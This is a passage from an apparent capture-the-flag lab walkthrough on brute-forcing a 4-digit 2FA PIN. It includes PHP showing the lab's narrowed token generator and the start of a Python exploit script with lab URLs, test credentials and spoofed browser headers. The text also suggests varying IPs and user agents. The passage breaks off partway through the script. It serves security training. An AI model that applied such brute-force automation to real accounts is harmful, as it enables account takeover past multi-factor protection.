 #### **Consistency**
---
Automation avoids mistakes that might happen if youâ€™re doing the same repetitive actions over and over again. Itâ€™s reliable.

#### **Recovering From Logouts**
---
If the application logs you out after a few failed attempts, the script can automatically log back in and keep trying. This saves you the hassle of doing it manually every time.

#### **Customization**
---
Manually creating an automation script for the attack offers more flexibility than using a single tool like ZAP orÂ Burp Suite. You can customize your scripts to test specific scenarios, such as using different IP addresses or user agents or varying the timing between requests.

### Exploitation

The application hosted inÂ [http://mfa.thm/labs/third](http://mfa.thm/labs/third)Â automatically logs out the user if they fail the 2FA challenge. For demonstration purposes, the application also generates a 4-digit PIN code every time the user logs in to the application.

```ad-note

**Note:**Â In real-life applications, the PIN code typically ranges from 0000 to 9999. We're only setting it to a lower value to save time brute-forcing it.
```

```php
function generateToken()
{
    $token = strval(rand(1250, 1350));

    $_SESSION['token'] = $token;
    return 'success';
}
```

Using the Python script below, save the script asÂ **exploit.py**Â and run it in your terminal.

```python
import requests

# Define the URLs for the login, 2FA process, and dashboard
login_url = 'http://mfa.thm/labs/third/'
otp_url = 'http://mfa.thm/labs/third/mfa'
dashboard_url = 'http://mfa.thm/labs/third/dashboard'

# Define login credentials
credentials = {
    'email': 'thm@mail.thm',
    'password': 'test123'
}

# Define the headers to mimic a real browser
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://mfa.thm',
    'Connection': 'close',
    'Referer': 'http://mfa.thm/labs/third/mfa',
    'Upgrade-Insecure-Requests': '1'
```
